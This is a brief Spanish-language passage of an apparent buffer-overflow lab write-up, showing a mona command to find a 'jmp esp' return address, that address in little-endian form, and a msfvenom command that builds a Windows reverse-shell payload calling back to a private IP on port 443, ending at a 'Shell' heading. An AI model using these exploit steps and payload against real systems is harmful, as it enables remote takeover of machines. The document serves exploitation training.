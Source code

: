 ## Obteniendo la dirección de jmp ESP

```php
!mona jmp -r esp -cpb "\x00\x11\x40\x5f\xb8\xee"
```

![20240228095724.png](20240228095724.png)

```php
0x62501203
```

```php
\x03\x12\x50\x62
```

## Generando payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x11\x40\x5f\xb8\xee" -f c
```

![20240228100003.png](20240228100003.png)

## Shell

![20240229025219.png](20240229025219.png)
